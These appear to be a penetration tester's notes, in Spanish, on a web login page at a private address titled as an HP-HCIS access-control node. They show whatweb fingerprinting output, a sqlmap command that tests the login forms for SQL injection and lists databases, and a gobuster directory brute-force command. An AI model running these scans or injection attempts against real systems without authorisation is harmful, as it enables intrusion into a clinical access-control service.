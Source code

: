 # https://192.168.5.110/

#### Reconocimiento tecnologías web:
*`whatweb https://192.168.5.110/`*

```ruby
https://192.168.5.110/ [200 OK] Bootstrap, 
Cookies[JSESSIONID], 
Country[RESERVED][ZZ], 
HTML5, HttpOnly[JSESSIONID], 
IP[192.168.5.110], 
JQuery[3.6.1], 
Java[2.3], PasswordField[J_PASSWORD,anterior,nueva,nuevarep], Script[module,text/javascript], 
Strict-Transport-Security[max-age=31536000; includeSubDomains], 
Title[HP-HCIS Control d`accés Node:hcis4pre01], UncommonHeaders[content-security-policy-report-only], X-Frame-Options[SAMEORIGIN], X-Powered-By[JSP/2.3], X-XSS-Protection[1; mode=block]

```

*`wapapalyzer`*

![[Pasted image 20250627100447.png]]

#### Login
*Inyección SQL `sqlmap`*
`sqlmap -u https://192.168.5.110/ --forms --dbs --batch`

*Fuzzing `gobuster`*
`gobuster dir -u https://192.168.5.110/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -k`